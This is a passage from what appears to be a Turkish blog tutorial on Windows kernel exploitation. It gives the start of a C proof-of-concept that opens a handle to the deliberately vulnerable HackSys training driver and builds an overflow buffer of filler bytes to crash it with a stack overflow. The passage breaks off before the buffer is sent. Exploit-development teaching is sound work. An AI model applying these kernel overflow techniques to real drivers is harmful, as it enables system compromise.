 O halde şimdi şu yukarıdaki dört temel adımı yapan kodu görelim, sonrasında diğer zafiyetleri de bu temel kod üzerine inşa edeceğiz. Eğer önceki yazıları bir gözden geçirmiş iseniz, Windows'da çekirdek modundaki sürücülere haber salmak için [`DeviceIoControl`](https://msdn.microsoft.com/en-us/library/windows/desktop/aa363216(v=vs.85).aspx) isimli bir fonksiyon kullanıyorduk. Şimdi de aynısını yapacağız, sisteme yüklediğimiz zafiyetli sürücüye bir tutamak elde edeceğiz, sonra da adı geçen fonksiyonu kullanarak verimizi gönderip masmavi bir ekran görmeye çalışacağız.

```c
#include "stdafx.h"
#include <Windows.h>
#include <future>

#define HACKSYS_EVD_IOCTL_STACK_OVERFLOW  CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_NEITHER, FILE_ANY_ACCESS)

int main()
{
	BOOL Result             = FALSE;
	DWORD Retval            = 0;
	PUCHAR pBuffer          = NULL;
	const DWORD BufferSize  = 2048 + (8 * 3);
	HANDLE hDeviceHandle    = INVALID_HANDLE_VALUE;
	const WCHAR* DeviceName = L"\\\\.\\HacksysExtremeVulnerableDriver";

	printf("*** Cekirdegi Kitliyoruz - Yigin Tasmasi ***\n");

	//
	// Surucuye tutamak al
	//
	hDeviceHandle = CreateFile(
		DeviceName,
		GENERIC_READ | GENERIC_WRITE,
		FILE_SHARE_READ,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL);

	if(hDeviceHandle == INVALID_HANDLE_VALUE)
	{
		printf("Surucuye tutamak alamiyoruz?!\n");
		goto RETURN;
	}

	printf("Hop, tutamak geldi : %p\n", hDeviceHandle);

	//
	// Veriyi hazırla
	// 
	pBuffer = (PUCHAR)VirtualAlloc(
		NULL,
		BufferSize,
		MEM_COMMIT,
		PAGE_EXECUTE_READWRITE);

	if(!pBuffer)
	{
		printf("2018'de bos hafiza kalmamis?!\n");
		goto RETURN;
	}

	__stosb(pBuffer,                'A', 2048);
	__stosb(pBuffer + 2048,         'B', 8);
	__stosb(pBuffer + 2048 + 8,     'C', 8);
```